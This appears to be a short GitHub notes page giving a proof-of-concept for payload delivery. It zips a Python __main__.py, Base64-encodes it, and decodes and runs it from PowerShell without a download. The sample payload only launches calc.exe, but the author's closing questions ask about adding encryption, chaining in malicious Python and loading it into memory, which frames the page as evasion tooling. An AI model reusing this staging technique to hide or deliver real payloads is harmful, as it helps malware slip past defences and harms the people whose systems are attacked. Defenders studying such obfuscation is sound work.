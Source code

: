 # Python Code, Zipped, Base64 Encoded, Powershell Command with no download to deploy POC
## create __main__.py
```python
import os, sys
os.system('calc.exe')
```
## zip __main__.py file and Base64 Encode it
```powershell
Compress-Archive -Path .\__main__.py -DestinationPath .\python.zip
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Path\to\python.zip'))
echo $base64string

$base64string | Out-File '.\python64.txt'
cat .\python64.txt
```
#### Output: 
```
UEsDBBQAAAAIAAIYZVX04o2dJQAAACUAAAALAAAAX19tYWluX18ucHnLzC3ILypRyC/WUSiuLOblyi/WA9Ilqbka6smJOcl6qRWp6poAUEsBAhQAFAAAAAgAAhhlVfTijZ0lAAAAJQAAAAsAAAAAAAAAAAAAAAAAAAAAAF9fbWFpbl9fLnB5UEsFBgAAAAABAAEAOQAAAE4AAAAAAA==
```

## Base64 Decode to zip file
```powershell
$FileName = $HOME + '\python.zip'
[IO.File]::WriteAllBytes($FileName, [Convert]::FromBase64String('UEsDBBQAAAAIAAIYZVX04o2dJQAAACUAAAALAAAAX19tYWluX18ucHnLzC3ILypRyC/WUSiuLOblyi/WA9Ilqbka6smJOcl6qRWp6poAUEsBAhQAFAAAAAgAAhhlVfTijZ0lAAAAJQAAAAsAAAAAAAAAAAAAAAAAAAAAAF9fbWFpbl9fLnB5UEsFBgAAAAABAAEAOQAAAE4AAAAAAA=='))
python $FileName 
```

#### Questions:
- can I add password protection or encryption? 
- could I chain this with malicious python code, which can be run from inside the zip file?
- could I remove or run the contents from powershell? 
- could I load contents directly into ram? 




### references: 
https://isc.sans.edu/diary/Did+You+Spot+InvokeExpression/26762

